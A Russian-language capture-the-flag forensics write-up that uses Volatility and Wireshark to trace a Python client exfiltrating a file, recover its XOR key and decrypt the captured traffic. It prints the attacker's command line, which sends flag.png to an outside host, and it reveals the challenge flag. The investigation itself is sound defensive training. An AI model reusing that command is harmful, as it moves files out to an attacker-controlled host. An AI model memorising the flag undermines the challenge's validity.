




# Traffic Interception. Decrypting Criminal Communications  

## Участникам

### Link file

[Traffic Interception. Decrypting Criminal Communications](https://drive.google.com/file/d/1dA2CMOLx7xeVDAfgsGUgSueqeQRXuLiF/view?usp=share_link)

### Легенда
Наша команда зафиксировала подозрительную сетевую активность. Похоже, что содержимое  зашифровано и нам не удается его расшифровать. Мы сняли дамп памяти на предположительно скомпрометированном хосте. Надеемся, что это вам поможет.

### Задача

Необходимо расшифровать содержимое дампа трафика dump.pcap.

### Hints

- Возможно стоит начать с поиска процесса, который инициировал подозрительное сетевое соединение
- Обратите внимание на родительский процесс. Возможно вы сможете найти дополнительные параметры для запуска дочернего

## Writeup

Открываем предоставленный дамп трафика в [Wireshark](https://www.wireshark.org/). Видим определенное количество TCP-сегментов между хостами с адресами 192.168.5.131 и 158.160.42.181 соответственно. Выводим данные, которые передавались в рамках tcp-сессии (*Follow - TCP Stream*). Похоже, что они действительно зашифрованы. 


Обратимся к дампу памяти. Проанализируем его с помощью фреймворка [Volatility](https://github.com/volatilityfoundation/volatility). Для начала попытаемся определить версию операционной системы с которой дамп памяти был получен. Для этого воспользуемся плагином *imageinfo*:

```powershell
PS > python .\vol.py imageinfo -f dump.vmem

INFO    : volatility.debug    : Determining profile based on KDBG search...
          Suggested Profile(s) : Win7SP1x64, Win7SP0x64, Win2008R2SP0x64, Win2008R2SP1x64_24000, Win2008R2SP1x64_23418, Win2008R2SP1x64, Win7SP1x64_24000, Win7SP1x64_23418
                     AS Layer1 : WindowsAMD64PagedMemory (Kernel AS)
                     AS Layer2 : FileAddressSpace (dump.vmem)
                      PAE type : No PAE
                           DTB : 0x187000L
                          KDBG : 0xf80002c00110L
          Number of Processors : 1
     Image Type (Service Pack) : 1
                KPCR for CPU 0 : 0xfffff80002c01d00L
             KUSER_SHARED_DATA : 0xfffff78000000000L
           Image date and time : 2023-03-27 19:12:06 UTC+0000
     Image local date and time : 2023-03-28 06:12:06 +1100
```

Наиболее вероятная версия операционной системы - Win7SP1x64. Используем данный профиль для последующего анализа. 

Нам известен адрес назначения из дампа трафика - 158.160.42.181. С помощью плагина *netscan* выведем список открытых сетевых соединений:

```powershell
PS > python .\vol.py -f dump.vmem --profile=Win7SP1x64 netscan

Offset(P)          Proto    Local Address                  Foreign Address      State            Pid      Owner          Created
0x51f24b0          UDPv4    192.168.5.131:138              *:*                                   4        System         2023-03-27 19:07:35 UTC+0000
0x51f2810          UDPv4    192.168.5.131:137              *:*                                   4        System         2023-03-27 19:07:35 UTC+0000
0x17607910         UDPv4    0.0.0.0:3702                   *:*                                   1016     svchost.exe    2023-03-27 19:07:42 UTC+0000
0x17607910         UDPv6    :::3702                        *:*                                   1016     svchost.exe    2023-03-27 19:07:42 UTC+0000
0x3d62f840         UDPv4    0.0.0.0:5355                   *:*                                   420      svchost.exe    2023-03-27 19:07:35 UTC+0000
0x3d62f840         UDPv6    :::5355                        *:*                                   420      svchost.exe    2023-03-27 19:07:35 UTC+0000
0x3d72a740         UDPv6    ::1:59839                      *:*                                   1344     svchost.exe    2023-03-27 19:07:32 UTC+0000
0x3d72ad70         UDPv4    192.168.5.131:59840            *:*                                   1344     svchost.exe    2023-03-27 19:07:32 UTC+0000
0x3d72b320         UDPv4    127.0.0.1:59841                *:*                                   1344     svchost.exe    2023-03-27 19:07:32 UTC+0000
0x3d730aa0         UDPv6    fe80::55ec:ceb9:69c5:1472:59838 *:*                                   1344     svchost.exe    2023-03-27 19:07:32 UTC+0000
0x3d731950         UDPv6    ::1:1900                       *:*                                   1344     svchost.exe    2023-03-27 19:07:32 UTC+0000
0x3d731ec0         UDPv6    fe80::55ec:ceb9:69c5:1472:1900 *:*                                   1344     svchost.exe    2023-03-27 19:07:32 UTC+0000
0x3d733800         UDPv4    127.0.0.1:1900                 *:*                                   1344     svchost.exe    2023-03-27 19:07:32 UTC+0000
0x3d733ec0         UDPv4    192.168.5.131:1900             *:*                                   1344     svchost.exe    2023-03-27 19:07:32 UTC+0000
0x3d75e950         UDPv4    0.0.0.0:3702                   *:*                                   1016     svchost.exe    2023-03-27 19:07:42 UTC+0000
0x3d75e950         UDPv6    :::3702                        *:*                                   1016     svchost.exe    2023-03-27 19:07:42 UTC+0000
0x3d75fbf0         UDPv4    0.0.0.0:3702                   *:*                                   1016     svchost.exe    2023-03-27 19:07:42 UTC+0000
0x3d856aa0         UDPv4    0.0.0.0:52680                  *:*                                   1344     svchost.exe    2023-03-27 19:04:31 UTC+0000
0x3d8e7830         UDPv4    0.0.0.0:52681                  *:*                                   1344     svchost.exe    2023-03-27 19:04:31 UTC+0000
0x3d8e7830         UDPv6    :::52681                       *:*                                   1344     svchost.exe    2023-03-27 19:04:31 UTC+0000
0x3d8ebc10         UDPv4    0.0.0.0:3702                   *:*                                   1344     svchost.exe    2023-03-27 19:07:38 UTC+0000
0x3d8ebc10         UDPv6    :::3702                        *:*                                   1344     svchost.exe    2023-03-27 19:07:38 UTC+0000
0x3d953010         UDPv4    0.0.0.0:3702                   *:*                                   1016     svchost.exe    2023-03-27 19:07:42 UTC+0000
0x3db0a900         UDPv4    0.0.0.0:3702                   *:*                                   1344     svchost.exe    2023-03-27 19:07:38 UTC+0000
0x3db0a900         UDPv6    :::3702                        *:*                                   1344     svchost.exe    2023-03-27 19:07:38 UTC+0000
0x3db5b010         UDPv4    0.0.0.0:3702                   *:*                                   1344     svchost.exe    2023-03-27 19:07:38 UTC+0000
0x3db5e8f0         UDPv4    0.0.0.0:3702                   *:*                                   1344     svchost.exe    2023-03-27 19:07:38 UTC+0000
0x3d785a80         TCPv4    192.168.5.131:139              0.0.0.0:0            LISTENING        4        System
0x3d84e3e0         TCPv4    0.0.0.0:49155                  0.0.0.0:0            LISTENING        500      services.exe
0x3d987160         TCPv4    0.0.0.0:445                    0.0.0.0:0            LISTENING        4        System
0x3d987160         TCPv6    :::445                         :::0                 LISTENING        4        System
0x3d9d8ad0         TCPv4    0.0.0.0:49155                  0.0.0.0:0            LISTENING        500      services.exe
0x3d9d8ad0         TCPv6    :::49155                       :::0                 LISTENING        500      services.exe
0x3da048f0         TCPv4    0.0.0.0:49152                  0.0.0.0:0            LISTENING        408      wininit.exe
0x3da048f0         TCPv6    :::49152                       :::0                 LISTENING        408      wininit.exe
0x3da07a90         TCPv4    0.0.0.0:49156                  0.0.0.0:0            LISTENING        516      lsass.exe
0x3da1fc90         TCPv4    0.0.0.0:49153                  0.0.0.0:0            LISTENING        744      svchost.exe
0x3da32960         TCPv4    0.0.0.0:49153                  0.0.0.0:0            LISTENING        744      svchost.exe
0x3da32960         TCPv6    :::49153                       :::0                 LISTENING        744      svchost.exe
0x3db619a0         TCPv4    0.0.0.0:49154                  0.0.0.0:0            LISTENING        892      svchost.exe
0x3db619a0         TCPv6    :::49154                       :::0                 LISTENING        892      svchost.exe
0x3db63ef0         TCPv4    0.0.0.0:49154                  0.0.0.0:0            LISTENING        892      svchost.exe
0x3ddf9540         TCPv4    0.0.0.0:135                    0.0.0.0:0            LISTENING        692      svchost.exe
0x3ddf9540         TCPv6    :::135                         :::0                 LISTENING        692      svchost.exe
0x3ddfa350         TCPv4    0.0.0.0:135                    0.0.0.0:0            LISTENING        692      svchost.exe
0x3ddfe350         TCPv4    0.0.0.0:49152                  0.0.0.0:0            LISTENING        408      wininit.exe
0x3d678790         TCPv6    -:0                            f842:903:80fa:ffff:f842:903:80fa:ffff:0 CLOSED           4        System

0x3d7813b0         TCPv4    192.168.5.131:49166            158.160.42.181:1337  ESTABLISHED      2500     python.exe
0x3d987280         TCPv6    -:0                            8895:cc00:80fa:ffff:8895:cc00:80fa:ffff:0 CLOSED           1        0l?☺????
0x3d9c59d0         TCPv4    -:0                            248.66.9.3:0         CLOSED           1016     svchost.exe
0x3d9c5cf0         TCPv6    -:0                            f842:903:80fa:ffff:f842:903:80fa:ffff:0 CLOSED           420      svchost.exe
0x3db60270         TCPv6    -:0                            8895:cc00:80fa:ffff:8895:cc00:80fa:ffff:0 CLOSED           1        0l?☺????
0x3e492b80         TCPv4    0.0.0.0:49156                  0.0.0.0:0            LISTENING        516      lsass.exe
0x3e492b80         TCPv6    :::49156                       :::0                 LISTENING        516      lsass.exe
 19:07:35 UTC+0000
0x3e8079c0         UDPv6    :::0                           *:*                                   420      svchost.exe    2023-03-27 19:07:35 UTC+0000
0x3ef0d9b0         UDPv4    0.0.0.0:5355                   *:*                                   420      svchost.exe    2023-03-27 19:07:35 UTC+0000
0x3e9b9970         TCPv4    0.0.0.0:5357                   0.0.0.0:0            LISTENING        4        System
0x3e9b9970         TCPv6    :::5357                        :::0                 LISTENING        4        System
0x3f8b55a0         UDPv4    0.0.0.0:0                      *:*                                   892      svchost.exe    2023-03-27 19:11:34 UTC+0000
0x3f8b55a0         UDPv6    :::0                           *:*                                   892      svchost.exe    2023-03-27 19:11:34 UTC+0000
0x3fb709b0         UDPv4    0.0.0.0:59654                  *:*                                   1016     svchost.exe    2023-03-27 19:07:42 UTC+0000
0x3fb709b0         UDPv6    :::59654                       *:*                                   1016     svchost.exe    2023-03-27 19:07:42 UTC+0000
0x3fd2f410         UDPv4    0.0.0.0:0                      *:*                                   1016     svchost.exe    2023-03-27 19:07:30 UTC+0000
0x3fd2f410         UDPv6    :::0                           *:*                                   1016     svchost.exe    2023-03-27 19:07:30 UTC+0000
0x3fd674b0         UDPv4    0.0.0.0:123                    *:*                                   1016     svchost.exe    2023-03-27 19:07:35 UTC+0000
0x3fd674b0         UDPv6    :::123                         *:*                                   1016     svchost.exe    2023-03-27 19:07:35 UTC+0000
0x3fd67750         UDPv4    0.0.0.0:123                    *:*                                   1016     svchost.exe    2023-03-27 19:07:35 UTC+0000
0x3fdc1300         UDPv4    0.0.0.0:0                      *:*                                   1016     svchost.exe    2023-03-27 19:07:30 UTC+0000
0x3fe31800         UDPv4    0.0.0.0:59653                  *:*                                   1016     svchost.exe    2023-03-27 19:07:42 UTC+0000
```

Обратим внимание, что сетевое соединение инициировал процесс python.exe с идентификатором 2500. Давайте выведем дерево процессов с помощью плагина *pstree*:

```powershell
PS >  python vol.py -f dump.vmem pstree --profile=Win7SP1x64 

Name                                                  Pid   PPid   Thds   Hnds Time
-------------------------------------------------- ------ ------ ------ ------ ----
 0xfffffa8000cce5d0:wininit.exe                       408    364      3     76 2023-03-27 19:04:28 UTC+0000
. 0xfffffa8002eddb10:lsm.exe                          524    408     10    144 2023-03-27 19:04:28 UTC+0000
. 0xfffffa8002ec9b10:lsass.exe                        516    408      6    548 2023-03-27 19:04:28 UTC+0000
. 0xfffffa8002e04b10:services.exe                     500    408      7    203 2023-03-27 19:04:28 UTC+0000
.. 0xfffffa80032552b0:svchost.exe                    1344    500     15    244 2023-03-27 19:04:30 UTC+0000
.. 0xfffffa8002f90b10:msiexec.exe                    3052    500      6    323 2023-03-27 19:08:41 UTC+0000
.. 0xfffffa8003181b10:taskhost.exe                   1172    500      7    183 2023-03-27 19:04:30 UTC+0000
.. 0xfffffa8000dad600:svchost.exe                    2788    500      5     72 2023-03-27 19:08:37 UTC+0000
.. 0xfffffa80033d31e0:svchost.exe                    1776    500      6     94 2023-03-27 19:04:31 UTC+0000
.. 0xfffffa80030ec060:svchost.exe                     420    500     17    481 2023-03-27 19:04:29 UTC+0000
.. 0xfffffa8002fe6b10:svchost.exe                     692    500      7    259 2023-03-27 19:04:29 UTC+0000
.. 0xfffffa80031cfb10:svchost.exe                    1220    500     17    327 2023-03-27 19:04:30 UTC+0000
.. 0xfffffa80034a2b10:wmpnetwk.exe                   1440    500      9    211 2023-03-27 19:04:36 UTC+0000
.. 0xfffffa8003150b10:mscorsvw.exe                   2700    500      7     84 2023-03-27 19:06:31 UTC+0000
.. 0xfffffa8000def060:sppsvc.exe                     2768    500      4    144 2023-03-27 19:06:32 UTC+0000
.. 0xfffffa800307eb10:svchost.exe                     852    500     15    318 2023-03-27 19:04:29 UTC+0000
... 0xfffffa8003161b10:dwm.exe                       1088    852      3     71 2023-03-27 19:04:30 UTC+0000
.. 0xfffffa8000d97060:mscorsvw.exe                   2724    500      7     89 2023-03-27 19:06:31 UTC+0000
.. 0xfffffa8003173720:spoolsv.exe                    1124    500     12    269 2023-03-27 19:04:30 UTC+0000
.. 0xfffffa800314bb10:SearchIndexer.                 2032    500     12    673 2023-03-27 19:04:36 UTC+0000
.. 0xfffffa8003010b10:svchost.exe                     744    500     20    503 2023-03-27 19:04:29 UTC+0000
... 0xfffffa80030af060:audiodg.exe                    964    744      4    123 2023-03-27 19:04:29 UTC+0000
.. 0xfffffa8002fb93a0:svchost.exe                     624    500      9    355 2023-03-27 19:04:29 UTC+0000
... 0xfffffa80034ce250:WmiPrvSE.exe                  2412    624      7    121 2023-03-27 19:05:30 UTC+0000
.. 0xfffffa8000dccb10:svchost.exe                    2804    500     14    324 2023-03-27 19:06:32 UTC+0000
.. 0xfffffa80030cd5d0:svchost.exe                    1016    500     20    469 2023-03-27 19:04:29 UTC+0000
.. 0xfffffa80030942f0:svchost.exe                     892    500     34    958 2023-03-27 19:04:29 UTC+0000
 0xfffffa800252f250:csrss.exe                         372    364      9    402 2023-03-27 19:04:28 UTC+0000
 0xfffffa8000cc9580:System                              4      0     96    514 2023-03-27 19:04:27 UTC+0000
. 0xfffffa8001a33b10:smss.exe                         300      4      2     29 2023-03-27 19:04:27 UTC+0000
 0xfffffa8002e58780:csrss.exe                         416    400      7    217 2023-03-27 19:04:28 UTC+0000
. 0xfffffa8001986060:conhost.exe                      832    416      2     54 2023-03-27 19:09:25 UTC+0000
 0xfffffa8002e9d810:winlogon.exe                      456    400      3    113 2023-03-27 19:04:28 UTC+0000
 0xfffffa80031136e0:explorer.exe                     1112   1076     29    943 2023-03-27 19:04:30 UTC+0000
. 0xfffffa8001931590:powershell.exe                  2252   1112      6    266 2023-03-27 19:09:25 UTC+0000
.. 0xfffffa8001a146b0:python.exe                     2500   2252      1     50 2023-03-27 19:11:56 UTC+0000
```

Видим, что родителем python.exe (pid 2500) является интерпретатор powershell (pid 2252). Выведем список аргументов, используемых при запуске дочернего процесса с помощью плагина *cmdline*:

```powershell
PS > python vol.py -f dump.vmem cmdline --profile=Win7SP1x64 

************************************************************************
System pid:      4
************************************************************************
smss.exe pid:    300
Command line : \SystemRoot\System32\smss.exe
************************************************************************
csrss.exe pid:    372
Command line : %SystemRoot%\system32\csrss.exe ObjectDirectory=\Windows SharedSection=1024,20480,768 Windows=On SubSystemType=Windows ServerDll=basesrv,1 ServerDll=winsrv:UserServerDllInitialization,3 ServerDll=winsrv:ConServerDllInitialization,2 ServerDll=sxssrv,4 ProfileControl=Off MaxRequestThreads=16
************************************************************************
wininit.exe pid:    408
Command line : wininit.exe
************************************************************************
csrss.exe pid:    416
Command line : %SystemRoot%\system32\csrss.exe ObjectDirectory=\Windows SharedSection=1024,20480,768 Windows=On SubSystemType=Windows ServerDll=basesrv,1 ServerDll=winsrv:UserServerDllInitialization,3 ServerDll=winsrv:ConServerDllInitialization,2 ServerDll=sxssrv,4 ProfileControl=Off MaxRequestThreads=16
************************************************************************
winlogon.exe pid:    456
Command line : winlogon.exe
************************************************************************
services.exe pid:    500
Command line : C:\Windows\system32\services.exe
************************************************************************
lsass.exe pid:    516
Command line : C:\Windows\system32\lsass.exe
************************************************************************
lsm.exe pid:    524
Command line : C:\Windows\system32\lsm.exe
************************************************************************
svchost.exe pid:    624
Command line : C:\Windows\system32\svchost.exe -k DcomLaunch
************************************************************************
svchost.exe pid:    692
Command line : C:\Windows\system32\svchost.exe -k RPCSS
************************************************************************
svchost.exe pid:    744
Command line : C:\Windows\System32\svchost.exe -k LocalServiceNetworkRestricted
************************************************************************
svchost.exe pid:    852
Command line : C:\Windows\System32\svchost.exe -k LocalSystemNetworkRestricted
************************************************************************
svchost.exe pid:    892
Command line : C:\Windows\system32\svchost.exe -k netsvcs
************************************************************************
audiodg.exe pid:    964
Command line : C:\Windows\system32\AUDIODG.EXE 0x2a8
************************************************************************
svchost.exe pid:   1016
Command line : C:\Windows\system32\svchost.exe -k LocalService
************************************************************************
svchost.exe pid:    420
Command line : C:\Windows\system32\svchost.exe -k NetworkService
************************************************************************
dwm.exe pid:   1088
Command line : "C:\Windows\system32\Dwm.exe"
************************************************************************
explorer.exe pid:   1112
Command line : C:\Windows\Explorer.EXE
************************************************************************
spoolsv.exe pid:   1124
Command line : C:\Windows\System32\spoolsv.exe
************************************************************************
taskhost.exe pid:   1172
Command line : "taskhost.exe"
************************************************************************
svchost.exe pid:   1220
Command line : C:\Windows\system32\svchost.exe -k LocalServiceNoNetwork
************************************************************************
svchost.exe pid:   1344
Command line : C:\Windows\system32\svchost.exe -k LocalServiceAndNoImpersonation
************************************************************************
svchost.exe pid:   1776
Command line :
************************************************************************
SearchIndexer. pid:   2032
Command line : C:\Windows\system32\SearchIndexer.exe /Embedding
************************************************************************
WmiPrvSE.exe pid:   2412
************************************************************************
mscorsvw.exe pid:   2700
Command line : C:\Windows\Microsoft.NET\Framework\v2.0.50727\mscorsvw.exe
************************************************************************
mscorsvw.exe pid:   2724
Command line :
************************************************************************
sppsvc.exe pid:   2768
Command line : C:\Windows\system32\sppsvc.exe
************************************************************************
svchost.exe pid:   2804
Command line : C:\Windows\System32\svchost.exe -k secsvcs
************************************************************************
svchost.exe pid:   2788
Command line : C:\Windows\System32\svchost.exe -k swprv
************************************************************************
msiexec.exe pid:   3052
Command line : C:\Windows\system32\msiexec.exe /V
************************************************************************
powershell.exe pid:   2252
************************************************************************
conhost.exe pid:    832
Command line :
************************************************************************
python.exe pid:   2500
Command line : "C:\Users\admin\AppData\Local\Programs\Python\Python38\python.exe"  .\client.py flag.png 158.160.42.181 1337 --xor VJR!FhJ6
```

Видим, что для запуска вредоносного скрипта client.py использовалось несколько параметров. В их числе фигурирует параметр --xor со значением VJR!FhJ6. Название данного параметра потенциально может указывать на применение XOR-шифрования. Проверим данную гипотезу.

Возвращаемся в Wireshark и в диалоговом окне Follow TCP Stream выбираем пакеты, исходящие от инфицированного узла (192.168.5.131:49166 -> 158.160.42.181:1337 (12 KB)) и выбираем представление данных Raw (Show data as Raw). Сохраняем данные с помощью Save as...


Подготовим простой Python-скрипт для расшифровки. Также можно воспользоваться различными онлайн-сервисами.

```python
def decrypt(data: bytes, key: bytes):
    ciphertext = bytearray(len(data))
    for i in range(len(data)):
        ciphertext[i] = data[i] ^ key[i % len(key)]
    return bytes(ciphertext)

with open('edata.raw', 'rb') as f1:
	with open('ddata.raw', 'wb') as f2:
		enc = f1.read()
		f2.write(decrypt(enc, b'VJR!FhJ6'))
```

После запуска открываем полученный файл в Hex-редакторе. Видим некоторый читаемый текст за которым следует сигнатура формата PNG. 


Очищаем предшествующий сигнатуре текст 


И получаем флаг 


### Flags

RDGCTF{us3_c0mpl3x_encrypt1on_alg0rithms}

